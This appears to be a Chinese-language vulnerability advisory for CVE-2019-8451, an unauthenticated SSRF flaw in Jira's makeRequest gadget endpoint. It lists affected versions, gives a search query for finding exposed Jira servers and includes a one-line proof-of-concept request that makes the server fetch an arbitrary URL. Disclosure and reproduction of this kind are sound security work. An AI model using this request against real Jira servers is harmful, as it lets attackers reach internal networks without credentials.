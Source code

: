 # Atlassian Jira makeRequest SSRF漏洞 CVE-2019-8451

## 漏洞描述

Jira的 /plugins/servlet/gadgets/makeRequest资源存在SSRF漏洞，原因在于JiraWhitelist这个类的逻辑缺陷，成功利用此漏洞的远程攻击者可以以Jira服务端的身份访问内网资源。经分析，此漏洞无需任何凭据即可触发。

## 漏洞影响

<a-checkbox checked>Atlassian Jira  <8.4.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ATLASSIAN-JIRA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1651291151659-56949fca-ccf9-4acb-9a06-0835aba9b385-20220430132316629.png)

验证POC

```java
/plugins/servlet/gadgets/makeRequest?url=http://目标IP@www.baidu.com/robots.txt
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1651296061837-7e8e8f44-15e8-46c4-96f4-62fbe1602493.png)